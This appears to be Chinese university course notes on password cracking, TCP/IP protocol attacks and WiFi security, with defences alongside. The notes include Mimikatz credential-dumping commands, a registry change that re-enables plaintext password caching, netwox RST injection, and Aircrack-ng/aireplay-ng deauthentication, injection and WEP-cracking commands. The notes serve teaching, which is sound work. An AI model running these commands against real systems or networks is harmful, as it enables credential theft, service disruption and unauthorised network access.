将字典各种组合以及这些组合经过MD5/LM/NTLM等加密手段加密后的映射表
通过查表，破解hash密码相当于字典破解
速度相对普通的暴力破解大大增加
```

如何使用Rainbow tables?
```tex
ophcrack（http://ophcrack.sourceforge.net/）
	界面友好，压缩储存
	独特的彩虹表结构
	Live CD
	支持的HASH类型：LM，NTLM
	提供免费的彩虹表
RainbowCrack（http://project-rainbowcrack.com/）
	通用的 一般的破解软件如saminside都支持
	命令行界面 黑客的最爱 支持CUDA
	可以自己生成表 不要钱 传说中的120G就来自于此……
	支持HASH类型：LM，NTLM，MD5，SHA1，MYSQLSHA1，HALFLMCHALL，NTLMCHALL
	扩展名：rt
Free Rainbow Tables（http://www.freerainbowtables.com/）
	采用索引和压缩存储
	速度更快、体积更小
	支持分布式破解
	支持HASH类型：LM，MD5，NTLM，SHA1，HALFLMCHALL
	有已经生成好的表可供下载
	扩展名：rti
```



#### 使用Mimikatz获取缓存的Windows密码
什么是Mimikatz？
```tex
开源的Windows安全工具
读取lsass进程缓存
Windows登录密码
	NTLM hash
	kerberos凭据
	哈希传递、票证传递等操作
Github项目地址：https://github.com/gentilkiwi/mimikatz
```

Mimikatz获取Windows密码的原理
```tex
RFC 2069和RFC 2617认证过程中需要用户密码参与
Windows中WDigest SSP组件实现上述协议时，使用AES/3DES加密了登录密码，并在需要使用时解密
安全研究者通过逆向定位到lsass内存中的密文及密钥，参见《exploring-mimikatz-part-1》
```

Mimikatz获取WDigest缓存密码
```tex
管理员身份启动后，输入privilege::debug提权
使用sekurlsa::logonPasswords获取密码明文
```



说明
```tex
Win10及之后默认关闭该缓存机制
HKLM/System/CurrentControlSet/Control/SecurityProviders/Wdigest中UseLogonCredential值设为1即可开启
以管理员身份运行Mimikatz主程序
x86及x64系统选择对应的版本
建议在虚拟机Win7环境中或计算机实验中心的机器上完成
```

### 口令的防护
#### 选择安全密码
不考虑时间因素，任何口令都会被暴力穷举
​	技术关键：<font color="red">增加攻击者的时间代价</font>
设置足够长度的口令
​	1位数字口令，其可能值的总数为10，
​	7位数字口令其可能值总数为10^7^
混合使用大小写字母、数字、特殊符号
​	增加每一位取值范围，其可能值总数为(10+26+26+32)^7^≈6×10^13^

#### 防止口令猜测攻击
```tex
硬盘分区采用NTFS格式
正确设置和管理帐户
禁止不需要的服务
关闭不用的端口
禁止建立空连接
```

#### 设置安全策略
控制面板->系统和安全->管理工具-> 本地安全策略



强制密码历史
​	确定唯一新密码的个数，在重新使用旧密码之前，用户必须使用这些密码。



密码最长使用期限
​	确定在要求用户更改密码之前用户可以使用该密码的天数。其值介于 0 和 999 之间；如果该值设置为 0，则密码从不过期。



密码最短使用期限
​	确定用户可以更改新密码之前这些新密码必须保留的天数。此设置被设计为与“强制密码历史”设置一起使用，这样用户就不能很快地重置有次数要求的密码并更改回旧密码。



密码长度最小值
​	确定密码最少可以有多少个字符。
​	Windows XP最多可支持 28 个字符的密码
​	如果设置为 0，则允许用户使用空白密码。


设置安全策略
```tex
密码必须符合复杂性要求
	密码长度至少有6个字符。
	密码至少包含以下5类字符中的3类字符：
		英语大写字母(A-Z)
		英语小写字母(a-z)
		10个基数数字(0-9)
		非字母数字（例如：!、$、# 或 %）
		Unicode字符
	密码不得包含三个或三个以上来自用户帐户名中的字符。
```


# 第八章 TCP/IP网络协议安全攻防
## 网络安全属性
网络安全CIA属性
```tex
机密性(Confidentiality)
完整性(Integrity)
可用性(Availability)
```

两个额外属性
```tex
真实性(Authentication)
不可抵赖性(Non-Repudiation):可审查性(Accountability)
```


## TCP/IP网络协议栈安全缺陷与攻击技术



## TCP/IP网络协议栈攻击概述
### 网络攻击基本模式
#### 被动截获
##### 嗅探（sniffing）
##### 监听（eavesdropping）
#### 主动攻击
##### 篡改：数据包篡改(tampering)
##### 中断：拒绝服务(DoSing)
##### 伪造：欺骗(Spoofing)



### 中间人攻击（MITM攻击）
```tex
与通信双方建立起各自独立的会话连接
对双方进行身份欺骗
进行消息的双向转发
拦截通信双方的全部通信（截获）
转发篡改消息（篡改）
双方身份欺骗（伪造）
```

## IP源地址欺骗
IP欺骗：伪造并发送具有虚假源地址的IP数据包，目的是隐藏攻击者身份、假冒其他计算机通过身份验证
原理：路由转发仅参考目标IP地址，不对源IP做验证
<font color="red">针对TCP协议，欺骗过程存在问题：</font>
​	攻击者冒充其他主机向被攻击者发送SYN包时，被攻击者回应的SYN包会回向冒充的IP地址

### 两种攻击方式
#### On-Path IP Spoofing
嗅探：局域网网关
欺骗：ARP欺骗、重定向攻击劫持
恶意路由器，国际出入口



#### Off-Path IP Spoofing
监听不到怎么办？探测+猜测
猜测TCP三次握手中所需的信息（序列号），假冒IP建立TCP连接

##### 盲攻击过程



### 应用场景
#### 普遍应用场景
拒绝服务攻击：
```tex
无需或不期望响应包
节省带宽
隐藏攻击源
```

网络扫描：
```tex
隐藏真正的扫描源地址
将源地址混杂在假源IP地址
“法不责众”
nmap –D
```

#### 假冒IP攻击场景
绕过基于IP地址的身份认证机制
```tex
类Unix平台上的主机信任关系
防火墙或服务器中配置的特定IP访问许可
```

远程主机IP欺骗
```tex
盲攻击
较难成功
```

### 防护
1. 使用随机化的初始序列号 →避免远程盲攻击
2. 避免采用基于IP地址的信任策略
   以基于加密算法的用户身份认证机制来替代
3. 使用网络层安全传输协议如IPsec
   避免泄露高层协议可供利用的信息及传输内容（如：http->https）
4. 在路由器和网关上实施包检查和过滤
   入站过滤机制（ingress filtering）
   出站过滤机制（egress filtering）
5. 真实源IP地址验证

## ARP欺骗
### ARP机制
#### ARP协议
ARP协议：地址解析协议
```tex
IETF RFC 826，1982年
IP<->MAC
```

IP网络传输机制
```tex
子网间：IP地址通过路由器寻址转发
子网内：硬件地址（MAC）进行传输
需要主机IP地址－硬件地址映射过程
```

#### ARP协议格式



#### ARP请求/应答过程



#### ARP缓存
ARP缓存机制：
```tex
Static: arp -s
Dynamic: 根据ARP应答更新
```

ARP应答触发机制：
```tex
启动时主动发送ARP应答
刷新邻居的ARP缓存
并非都由请求触发
```

### 三种ARP欺骗方式
1. 伪装成主机
   伪装源C把自己伪装成局域网内的另一台主机B，将主机B的IP地址对应的MAC地址替换为欺骗源C的IP地址对应的MAC地址，使得局域网内的主机A发往主机B的报文都流向主机C
2. 伪装成网关
   欺骗源把自己（或者其他非网关主机）伪装成网关，向局域网内的目标主机发送ARP应答报文，使得局域网内的主机误以为欺骗源的MAC地址是网关MAC的地址，并将原本应该流向网关的数据都发送到欺骗源。

### 防范
静态绑定IP-MAC映射
```tex
关键服务器/网关
arp -s IP地址 MAC地址 类型
```

使用ARP防火墙
```tex
探测出网络中欺骗的ARP包
保护主机的ARP缓存不受欺骗
```

减少攻击面
```tex
使用VLAN虚拟子网
细分网络拓扑
“分小组”
```

加密传输数据
```tex
降低ARP欺骗攻击的危害后果
```

## ICMP路由重定向攻击
### ICMP消息
错误消息
查询消息
<font color="red">控制消息</font>



### 技术原理



### ICMP路由重定向攻击
伪装成路由器
发送虚假ICMP<font color="red">路由路径控制报文</font>
使受害主机选择攻击者指定的路由路径
攻击目的：嗅探或假冒攻击

### ICMP路由重定向攻击技术

攻击节点冒充网关IP
向被攻击节点发送ICMP重定向报文
	指定的新路由器IP地址设置为攻击节点
被攻击节点接受报文
	将攻击节点作为新路由器(即网关)
攻击节点开启路由转发，实施中间人攻击
“谎言还是真话”？现象



### 防范
根据类型过滤一些ICMP数据包
设置防火墙过滤
对于ICMP重定向报文判断是不是来自本地路由器

## TCP RST攻击
TCP RST攻击原理



### 应用场景
恶意拒绝服务攻击
重置入侵连接
关闭未备案的网站
GFW

### 攻击条件
限制条件：对端认定合法TCP包
```tex
源IP、 端口号一致
序列号（SEQ）合法：在TCP窗口内
```

分类
```tex
On-Path RST
Off-Path RST
```

### On-Path RST
流程
```tex
监听截获通信双方的TCP连接
	4元组：源/目标 IP/端口
	序列号
发送TCP RST报文给通信另一方
	结合IP源地址欺骗技术
	伪装为通信方
Powerful GFW always on your path!
```

### TCP RST攻击演示
#### Netwox #78 tool
```tex
Reset every TCP packet
Usage: netwox 78 [-d device] [-f filter] [-s spoofip] [-i ips]
netwox 78 -i "172.*.*.188"
```



### RST attack launched by GFW
#### On-Path RST packets
```tex
中间人攻击
发往客户端RST：假冒服务器IP地址
同时也发往服务器端
```



### Off-Path RST
无法监听通信双方TCP会话？
```tex
Off-Path RST
```

盲攻击可行性分析
```tex
猜测SEQ
	SEQ(32bit)， 2^32 (4 billions)
猜测源端口
	s_port随机(16bit)， 2^16(65000+)
猜测时间分析
	Convery and Franz of Cisco, 2003
	62.5Kpps（千包/秒）
	142 years
从实际角度不可行
```

## DNS Spoofing攻击
### On-Path DNS Spoofing
#### 攻击过程
嗅探DNS请求包
注入假冒DNS->IP应答的DNS响应包



#### 攻击特征
攻击者
```tex
能够获取攻击所需要的所有信息
	IP
	源端口
	QueryID
	question
注入的响应包比真正的响应包更早到达受害者
```

受害者
```tex
能够收到两（多）个响应包
竞赛法则
```

## TCP中SYN泛洪攻击与防范
### TCP SYN Flood（泛洪）攻击
#### 分类
```tex
拒绝服务攻击
破坏可用性
```

#### 过程
```tex
利用TCP三次握手的缺陷
大量伪造源地址的SYN连接请求
消耗目标主机的连接队列资源
无法为正常用户提供服务
```



### SYN Flood防范——Syn Cookie
#### 原理
```tex
延迟分配资源
无状态的三次握手
```

#### 过程
```tex
服务器收到SYN报文后,不立即分配缓冲区
根据连接信息生成Cookie, 作为SEQ
客户端返回ACK = Cookie+1
服务器端核对Cookie
	通过才建立连接，分配资源
	不通过则忽略
```


### 防火墙地址状态监控技术
#### 有状态防火墙
“三次握手”代理
对TCP连接进行状态监控和处理
维护TCP连接状态
	NEW状态
	GOOD状态
	BAD状态



## TCP/IP网络协议栈攻击防范措施
### 监测、预防与安全加固
#### 网络接口层
​	主要威胁： <font color="red">网络嗅探</font>
​	局域网中 <font color="red">监听点</font>检测
​	网络设计：尽量 <font color="red">细分和优化网络结构</font>
​	严格 <font color="red">安全防护</font>关键路径上 <font color="red">网关/路由器</font>等
​	各类网络采用 <font color="red">上层的加密通信协议</font>

#### 网络层（互联层）
​	检测并阻断 <font color="red">欺骗攻击</font>
​		检测技术
​		过滤技术
​	增强防火墙/路由器/网关的安全策略(egress filtering)
​	关键服务器静态绑定IP-MAC映射表
​	使用IPsec协议加密通讯

#### 传输层
​	加密传输
​	安全控制机制（身份认证，访问控制）

#### 应用层
​	用户级身份认证
​	数字签名技术
​	授权和访问控制技术
​	主机安全技术（审计、入侵检测）

### 网络安全协议
网络接口层
	无线： WPA/WPA2
	统一认证： 802.1X
网络互联层
	IPsec协议簇
	AH协议：完整性、认证、抗重放攻击
	ESP协议：机密性、数据源验证、抗重放、完整性
传输层
	TLS/SSL: 加密、可靠
应用层
	HTTPS、 S/MIME、 SET
	DNSSEC



下一代因特网协议
	IPv6为代表
	ICMPv6、 DHCPv6……
	没有了ARP
IPv6优势
	IPv6具有更大的地址空间：主动扫描和主动传播受到抑制
	IPv6使用更小的路由表
	IPv6增加了增强的组播(Multicast)支持以及对流的支持（Flow Control） – 提升QoS
	IPv6加入了对自动配置(Auto Configuration)的支持
	IPv6具有更高的安全性： 网络层的数据进行加密,…
欺骗攻击仍然存在：互联网已经缺少可信基础


# 第九章 移动终端与无线网络安全威胁
## 移动终端恶意代码
WinCE/WinMobile恶意代码
安卓恶意代码
iOS恶意代码
IoT恶意代码

## 无线网络简介
### 802系列标准



#### 802.11（WiFi）



#### 802.15（WPAN）
IEEE 802.15是由IEEE制定的一种蓝牙无线通信规范标准，基于蓝牙的个人局域网(Personal Area Networks, PAN)标准，应用于无线个人区域网（WPAN）。
特点：短距离、低功耗、低成本、小型网络及通信设备、适用于个人操作空间
#### 802.16（WiMax）



### 卫星通信网
卫星电话、位置定位、空中因特网、卫星广播电视、业余无线电通信

## WiFi无线网络攻击和防御技术
### WiFi基础知识
#### 802.11（WiFi）基础

MAC：带冲突避免的载波侦听多路访问CSMA/CA
两个工作模式：Infrastructure、Ad hoc
标识：SSID（WiFi名）、BSSID（WiFi设备的MAC）

#### 802.11 WLAN拓扑





#### 802.11安全弱点
**广播网络，共享介质**
```tex
没有明确的边界：无法有效控制
	e.g.：UESTC-WIFI
介质共享（无线电波）
	信道抢占DoS攻击
	报文窃听注入
难以溯源
	很难探知窃听/发送点的位置
```

#### 802.11安全威胁
窃听：如果不加密/弱加密，存在数据窃听风险
注入：报文易于造假，随意注入共享介质
信道抢占/干扰：电波频道抢占、电磁干扰
身份假冒：破解口令之后可假冒身份进入网络

#### 802.11网络连接过程
1. 搜索无线网络
   信道扫描
2. 认证过程
   不同加密协议
   提供认证口令
   执行认证
3. 关联
   响应关联请求、DHCP->分配IP



### 无线踩点
无线踩点：侦察无线网络和接入点（AP）
硬件：侦察装备
```tex
天线: 定向/全向天线, 收发功率
无线网卡: 耗电、敏感性、兼容性、扩展天线插座
定位系统：北斗/GPS/GPS模块
自行车/汽车/步行
```

#### 无线踩点软件
NetStumbler
```tex
基于windows
支持GPS
对禁用广播请求的AP无效
```



Cellular-Z





Kismet
```tex
基于linux
目前最好的无线侦察工具
需要安装网卡驱动
```



### WiFi网络攻击
#### WiFi加密方式
不加密开放网络
WEP
	RC4流加密算法, 明文初始化向量, CRC32校验
	存在设计缺陷，极易破解
WPA/WPA2
	WPA: TKIP（RC4+rekeying）临时过渡方案
	WPA2: 802.11i(AES/CCMP)
	预先共享密钥（WPA-PSK/WPA-PSK2）
	外部身份认证服务（Radius, WPA enterprise）
	802.1x身份认证机制
在不安全网络下建立隧道至受信任网络进行通信：easytier（推荐）、zerotier、tailscale

#### WEP加密
不安全的WEP协议
​	制定目标：防止窃听
​	不是一种以身份验证和加密机制为核心的解决方案




存在设计缺陷 
​	普遍基于共享密钥, 密钥不改变
​	RC4密钥64/128位， RC4流密码弱（只是打乱次序）
​		有客户端大量通讯时, 可以破解WEP口令
​	明文/IV向量24位, Traffic Key会重复，允许重用
​		允许攻击者实施ARP重放攻击，在少量通讯时注入激发大量数据
​	缺乏身份认证机制→允许攻击者建立伪连接，无客户端时也可获得少量通讯

#### WEP破解原理
密钥流（xor file）= 密文 xor 明文
	802.11 SNAP标头0xAA不变
	密钥（1位）= 0xAA xor IV第一个字节
RC4流加密算法只是将原密码打乱次序
	收集到足够多的IV值以及碎片密码
	统计分析排序即可得出密钥
WEP破解关键
	通过注入激发
	监听足够多的不同IV值的加密包（ARP amplification）

#### Aircrack-ng 破解WEP密钥
包含最新WEP算法的破解工具
```tex
最著名的WiFi破解工具： Aircrack-ng
Kali Linux中集成
https://github.com/aircrackng/aircrack-ng
```



AirCrack-NG主要功能
```tex
网络侦测
数据包嗅探
WEP破解
WPA/WPA2-PSK破解
```

#### 无线扫描和查点（以AirCrack为例，Linux环境下）
常用命令：
	ifconfig: 可设置网络设备的状态，或是显示目前的设置
	iwconfig:对无线网卡参数进行配置
1. 查找目标
   airodump-ng wifi0
2. 将网卡配置为混杂模式
   airmon-ng start wifi0 1
3. 获取数据包
   airodump-ng --ivs –w 123.cap -c 1 wlan0
4. 破解
   aircrack-ng -n 64 –b AP’MAC 123.cap-01.ivs

#### Aireplay的六种注入方式
```tex
1.Deautenticate 冲突模式
	强制断开已连接的客户端与AP的连接
	客户端尝试重连
	抓取重连过程的验证数据包
	产生有效ARP request
	aireplay-ng -0 10 -a <ap mac> -c <my mac> wifi0
2.fakeauth 伪装客户端连接
	伪装一个客户端和AP进行连接
	aireplay-ng -1 0 -e <ap essid> -a <ap mac> -h <my mac> wifi0
3.Interactive 交互模式
	集抓包、提数据、发攻击包三种操作于一体
	aireplay-ng -2 -p 0841 -c ff:ff:ff:ff:ff:ff -b <ap mac> -h <my mac> wifi0
4.ARP-request 注入攻击模式
	抓包后分析重发
	激发大量的ARP应答回报
	aireplay-ng -3 -b <ap mac> -h <my mac> -x 512 wifi0
5.Chopchop 攻击模式
	获得包含密钥数据的xor 文件
	产生新数据包供注入
	aireplay-ng -4 -b <ap mac> -h <my mac> wifi0
6.fragment 碎片包攻击模式
	用以获得PRGA（包含密钥的后缀为xor文件）
	aireplay-ng -5 -b <ap mac> -h <my mac> wifi0
```

#### Aircrack-ng 破解
Aircrack-ng： WEP 及 WPA-PSK key 破解主程序
```tex
aircrack-ng -n 64 -b <ap mac> name-01.ivs
aircrack-ng -w password.txt ciw.cap
```

有客户端，数据量大
```tex
监听，获得大量Ivs
	airodump-ng --ivs –w 123.cap -c 1 wlan0
直接破解即可
	aircrack-ng -n 64 -b <ap mac> name-01.ivs
```

有客户端，数据量小
```tex
-3 ARP-request attack mode攻击抓取合法客户端的arp请求包。如果发现合法客户端发给AP的arp请求包，攻击者就会向AP重放这个包。由于802.11允许 IV重复使用。所以AP接到这样的arp请求后就会回复客户端。这样攻击者就能搜集到更多的IV。
如果没有办法获取arp请求包，可以用-0 攻击使得合法客户端和AP断线后重新连接。（-0 Deautenticate）
```

无客户端
```tex
先和AP进行伪链接-1 fakeauth count attack mode产生数据包
收集两个IV 相同的的WEP 包，把这两个包里的密文做XOR 运算，得到XOR 文件。用这个XOR文件配合伪造arp包的工具。利用CRC-32的特点伪造一个arp包和原来的IV一起发给AP。这样就可以按有客户端进行破解了。其中 -2 Interactive， -4 Chopchop， -5 Fragment 都是属于上面这个攻击类型的
```
